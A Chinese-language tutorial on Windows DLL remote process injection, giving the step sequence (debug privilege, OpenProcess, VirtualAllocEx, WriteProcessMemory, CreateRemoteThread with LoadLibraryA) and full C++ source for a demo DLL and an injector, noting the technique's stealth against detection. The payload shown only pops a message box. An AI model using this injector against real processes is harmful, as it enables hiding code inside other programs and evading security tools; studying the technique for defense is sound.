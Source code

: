 # Process Injection  

------------------------------  

### 0x00 前言  
远程进程注入：将自己的代码放在目标进程的地址空间里运行，实现对内存中的某个进程进行操作，并且获得该进程地址空间里的数据，或者修改进程的私有数据结构。

利用 DLL 文件，在 DLL 文件第一次被装载进进程时，会执行 DllMain 中的 DLL\_PROCESS\_ATTACH 下的代码。  

进程注入的优点是：  

1. 需要插入到远程进程的内存空间是通过virtualAllocEx这样的函数分配的，只存在于内存中，如果不是内存查杀，很难发现。
2. 可以复用宿主进程的名称、端口，更加隐蔽  



### 0x01 进程注入流程    
进程注入的流程：  

1. 将系统权限提升到Debug模式，因为只有debug模式才能打开远程进程的handle。(`EnableDebugPrivilege`)
2. 打开远程进程。(`OpenProcess`)
3. 将 DLL 文件的路径分配到目标内容空间中。(`VirtualAllocEx`)
4. 将DLL文件内容写入到远程进程。(`WriteProcessMemory`)
5. 在宿主进程中启动新线程完成插入。(`CreateRemoteThread`)


>上面提到的函数到 MSDN 查看详细的使用方法。


### 0x02 程序  
恶意的 DLL 文件代码： 
`DllHeader.h`:  

	#ifndef dllDemoHeader	#define dllDemoHeader	#ifdef DLLDEMO	#define EXPOETS_DEMO _declspec(dllexport)	#else	#define EXPORTS_DEMO _declspec(dllimport)	#endif	extern "C" EXPORTS_DEMO int add(int a, int b);	#endif
	
`Main`:  

	#include <windows.h>	#include "DllHeader.h"	//dll Entry Point Function	bool APIENTRY DllMain(HANDLE hModule, DWORD dwReason, void* lpReserved) {		switch(dwReason) {			//it can be executed when first time loaded 			case DLL_PROCESS_ATTACH:				MessageBox(NULL, TEXT("Hello DLL~"), TEXT("Title"), MB_OK);				break;			//			case DLL_THREAD_ATTACH:				break;			//			case DLL_THREAD_DETACH:				break;			//			case DLL_PROCESS_DETACH:				break;		}		return true;	}	int add(int a, int b) {		return a + b;	}




进程插入代码： 

	/**	 * Description: This is example for process inject.	 *	Author: xx	 * Time: 2017.2.22	 * Version: 0.1	 */	#include <iostream>	#include <windows.h>	using namespace std;	//	int EnableDebugPrivilege(const char* name);	int main(int argc, char* argv[]) {		char filePath[MAX_PATH];		//MAX_PATH是C语言运行时库中通过#define指令定义的一个宏常量，它定义了编译器所支持的最长全路径名的长度。		HANDLE hRemoteProcess;		char* pszLibFileRemote;		bool retVal;		//Adjust privilege "DEBUG"		EnableDebugPrivilege(SE_DEBUG_NAME);		GetCurrentDirectory(MAX_PATH, filePath);		strcat(filePath, "\\DllTest.dll");		cout << filePath << endl;		//打开目标进程		hRemoteProcess = OpenProcess(PROCESS_ALL_ACCESS, false, 284);		if(hRemoteProcess == NULL) {			cout << "OpenProcess() Failed" << endl;		}		//为 dll 路径分配内存空间		pszLibFileRemote = (char*)VirtualAllocEx(hRemoteProcess, NULL, strlen(filePath)+1, MEM_COMMIT, PAGE_READWRITE);		if(pszLibFileRemote == NULL) {			cout << "VirtualAllocEx() Failed" << endl;		}		//将 dll 路径写入内存空间		retVal = WriteProcessMemory(hRemoteProcess, pszLibFileRemote, filePath, strlen(filePath)+1, NULL);		if(retVal == 0) {			cout << "WriteProcessMemory() Failed" << endl;		}		//得到 LoadLibraryA 的内存地址		PTHREAD_START_ROUTINE pfnStartAddr = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");		if(pfnStartAddr == NULL) {			cout << "GetProcAddress() Failed" << endl;		}		//创建子进程		HANDLE hRemoteThread;		hRemoteThread = CreateRemoteThread(hRemoteProcess, NULL, 0, pfnStartAddr, pszLibFileRemote, 0, NULL);		if(hRemoteThread == NULL) {			cout << "CreateRemoteThread() Failed" << endl;		}		else {			cout << "Inject Success" << endl;		}		CloseHandle(hRemoteProcess);		CloseHandle(hRemoteThread);		system("pause");		return 0;	}	int EnableDebugPrivilege(const char* name) {		HANDLE hToken;		TOKEN_PRIVILEGES tp;		LUID luid;		OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, & hToken);		LookupPrivilegeValue(NULL, name, &luid);		tp.PrivilegeCount = 1;		tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;		tp.Privileges[0].Luid = luid;		if(AdjustTokenPrivileges(hToken, 0, &tp, sizeof(TOKEN_PRIVILEGES), NULL, NULL)) {			cout << "AdjustTokenPrivileges Success" << endl;		}		return 0;	}




</br> 

-------------------------------
References: 
cnblogs.茄子写字板:  <http://www.cnblogs.com/handt/archive/2012/08/09/2627277.html>  
淡泊明志，宁静致远:  <http://andylin02.iteye.com/blog/459483>  
</br>
Author: xx  
Time: 2017.2.22